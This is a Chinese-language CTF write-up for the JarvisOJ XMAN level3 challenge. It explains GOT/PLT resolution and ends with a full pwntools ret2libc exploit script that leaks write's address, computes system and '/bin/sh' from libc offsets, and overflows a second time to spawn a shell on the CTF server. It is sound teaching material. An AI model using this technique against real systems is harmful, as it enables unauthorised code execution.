 ```yaml
---
title: JarvisOJ——XMANlevel3题解
date: 2018-08-3 13:54:00
tags:
- CTF
categories:
- CTF
---
```

day4：XMANlevel3

## 一、GOT表和PLT表  ##


GOT(Global Offset Table)和PLT(Procedure Linkage Table)是Linux系统下面ELF格式的可执行文件中，用于定位全局变量和函数[动态库的]的数据信息.[一开始把GOT表和GDT表看重了，实际上完全不同。GOT+PLT表的目的就是为了在运行时重定位。]

在ELF文件的动态连接机制中，每一个外部定义的符号在全局偏移表 (Global Offset Table，GOT)中有相应的条目，如果符号是函数则在过程连接表(Procedure Linkage Table，PLT)中也有相应的条目，且一个PLT条目对应一个GOT条目。

使用PLT和GOT表的目的就是为了能够动态获取动态链接库中所需函数的地址。如果一个代码调用了非本地的函数，那么就不能单纯靠重定位获得最终地址。因为动态库的加载顺序都不是一定的，无法固定每个动态库中的函数具体位置。因此需要动态获取.so文件的函数地址。

PLT[x]实际上是用于计算[链接器生成一段额外的小代码片段，通过这段代码获取比如printf这样动态库中函数的地址，并完成对它的调用]，GOT用于存储外部函数的具体地址。

[PLT，GOT表的大致原理](https://blog.csdn.net/luojiabin135/article/details/79661868)

利用objdump -h 可执行文件名得到ELF文件的各个节信息。PLT表/节属于代码段，GOT表/节属于数据段

![](/assets/img/obj_gotplt.jpg)


在一些pwn题中，泄漏出的函数地址放在是got表中。为了泄漏这些真正的地址，往往会用到read，write，put等函数，通过已知同时存在于GOT和libc的函数地址，可以得出偏移量，接着就能通过偏移量找到system函数的真正地址，从而进行ret2lib操作[具体在下述实例中演示]。






PLT[0]是一个函数，这个函数的作用是通过GOT[0],GOT[1]和GOT[2]来正确绑定一个函数的真实地址到GOT表中来。而plt[0]代码做的事情则是：由于GOT[2]中存储的是动态链接器的入口地址，所以通过GOT[1]、GOT[0]中的数据作为参数，跳转到GOT[2]所对应的函数入口地址[即动态链接器]，这个动态链接器会将一个函数的真正地址绑定到相应的GOT[x]中。
 
一般是从GOT[3]，开始因为如上所述GOT[0],GOT[1]和GOT[2]有额外用途。中间进行的压栈是为了确定PLT对应的GOT表项，比如push 0x3即是PLT[1]−>GOT[3]. 压栈后我们跳转到PLT[0],接着PLT[0]中的指令会通过这次压栈的序号来确定操作的GOT表项为多少

![PLT/GOT表的两次解析](/assets/img/plt_got.jpg)

解析PLT/GOT表的两次解析：https://www.jianshu.com/p/0ac63c3744dd


深入：http://www.360doc.com/content/14/1111/15/19184777_424304443.shtml
http://www.360doc.com/content/14/1111/15/19184777_424303666.shtml


## 解题思路 ##

![checksec查看栈保护机制开启情况](/assets/img/checksec3.jpg)

老样子，用checksec查看，和XMAN level2一样，开启了栈不可执行，但是没有开始栈随机化，故可以使用ret2libc技术。

用IDA查看，可以确定通过read函数输入buf进行溢出，但是并没有看到合适的目标函数。与level2相比，在level3的ELF程序中不在出现system和bin/sh。

![没有合适产生shell的函数](/assets/img/func3.jpg)

但是level3中还提供了libc-2.19.so的动态链接库文件，默认情况下，程序都会自动引入这个库中的函数。用ida对.so文件进行反汇编，可以看到system函数和“/bin/sh”字符串都存在

![找到可产生shell的函数](/assets/img/attack3.jpg)

于是思路：通过read(0,&buf,0x100)[其中0表示标准输入/键盘输入，如果是1则表示标准输出，2表示标准错误输出]，栈溢出ret到system函数，利用参数"/bin/sh"产生shell。

![构造栈帧](/assets/img/ans3.jpg)

### 但是问题在于system的地址如何知道呢？ ###

通过libc.so文件可以得到write、system和/bin/sh的相对.so基址的偏移量

设函数func在内存中地址为func_addr,在libc中偏移为func_libc则有

> 　sys_addr - sys_libc == write_addr - write_libc

所以我们可以通过泄露write函数的地址write_addr，**利用两函数在内存中的地址和libc文件中的偏移的差相等**，获得system的地址

> sys_addr == write_addr  + sys_libc - write_libc = write_addr +△ _ libc



### 构造两次溢出 ###

要利用偏移相等获得system和bin的地址，首先要泄露得到write的真实地址，可以通过打印write在got表中的地址，获取其真实地址。

那么第一次溢出，就是调用write函数[利用write函数写的功能]，打印出write_got[write函数的真实地址]。

利用sysaddr = writeaddr - writelibc + syslibc
以及binaddr = writeaddr - writelibc + binlibc得到system函数和"/bin/sh"的真实地址

第二次溢出，就是再次调用vuln_addr，产生一段缓冲区，提供read栈溢出漏洞，利用system函数和"/bin/sh"产生shell。得到flag。

----------

1.输出write的真实地址——**write(1,write_got,4字节)**

在栈溢出到write函数[利用write_plt间接调用write]打印GOT表中的write真实地址，提供"1，write_got，4"这些产生，1表示标准输出到屏幕，write_got表示GOT表中write地址存储的位置指针，4表示4字节打印长度，write的真实地址4字节大小。
【由于在此前已经调用过vulnerable_function中的write函数，那么PLT_GOT表+动态链接器已经得到了write函数的真实地址，并且存储在GOT表中。所以GOT[x]已更新，不再是对应PLT[x]】

![获取write函数的真实地址](/assets/img/write_addr.jpg)

当write成功调用后退栈时，将ebp+4作为返回地址，这里应当填充vulnerable_function函数的地址，二次溢出，利用read函数的栈溢出漏洞，跳转到system函数+"/bin/sh"产生shell[由于vulnerable_function函数不需要参数，故不会覆盖第一次溢出的参数]。


最终构造的栈帧图为：
[溢出write函数打印write_got+再返回到vuln函数再次执行read，实现二次溢出到system，最终获取shell]

![](/assets/img/level3.jpg)

## 解题步骤 ##

    #!usr/bin/env python
    # encoding:utf-8
    from pwn import *
    
    #io = process("./level3")
    io = remote("pwn2.jarvisoj.com",9879)
    elf = ELF("./level3")  #获取ELF文件头
    
    writeplt = elf.plt["write"]　　　　#plt和got节同.text节一样在ELF程序中都有标识
    writegot = elf.got["write"]   #得到write函数在GOT表和PLT表中的位置指针
    func = elf.symbols["vulnerable_function"] #在符号表中得到vulnerable_function的真实地址
    
    libc = ELF("./libc-2.19.so")  
    writelibc = libc.symbols["write"]　　　　#libc的符号表中找到程序中有的/没有的函数的偏移地址
    syslibc = libc.symbols["system"] 
    binlibc = libc.search("/bin/sh").next() #"/bin/sh"的偏移量
    
    payload1 = 'a' * 0x88 + 'f**k' + p32(writeplt) + p32(func) + p32(1)+p32(writegot)+p32(4)  #溢出地址+返回地址+参数
    
    io.recvuntil("Input:\n")
    io.sendline(payload1)
    
    writeaddr = u32(io.recv(4))　　　　#收到终端/屏幕输出的write真实地址[4字节]。由于python没有指针，不能*write_got，需要将其输出并保存
    sysaddr = writeaddr - writelibc + syslibc　　　　#利用偏移量相等获得其真实地址
    binaddr = writeaddr - writelibc + binlibc
    
    payload2 = 'a' * 0x88 + 'f**k' + p32(sysaddr) + p32(func) + p32(binaddr)  #二次溢出，还是有0x88+0x4的缓冲区
    io.recvuntil("Input:\n")
    io.sendline(payload2)
    io.interactive()
    io.close()


![攻击过程结果](/assets/img/process3.jpg)

## 补充 ##

[libc中的文件IO函数](https://blog.csdn.net/miss_acha/article/details/38274883)


**基于文件描述符**的I/O函数有：**open, close, read, write, getc, getchar, putc, putchar**等。他们**属于系统调用，更接近于硬件**，属于非缓冲文件系统的IO函数。

非缓冲文件系统依赖于操作系统，**通过操作系统的功能对文件进行读写，是系统级的输入输出，它不设文件结构体指针，只能读写二进制文件**[而文本文件不行]，（对于UNIX系统内核而言，文本文件和二进制代码文件并无区别），但效率高、速度快。由于ANSI标准不再包括非缓冲文件系统，因此，在读取正规的文件时，建议大家最好不要选择它。


**基于文件指针**的I/O函数有：**fopen,fclose,fread,fwrite,fgetc,fgets,fputc,fputs,freopen,fseek,ftell,rewind, fprintf等**。他们属于库函数，是对open,write等系统调用的封装，属于缓冲文件系统的I/O函数。

缓冲文件系统是借助于文件结构体指针FILE*来对文件进行管理，
**通过文件指针对文件进行访问，即可以读写字符、字符串、格式化数据，也可以读写二进制数据。**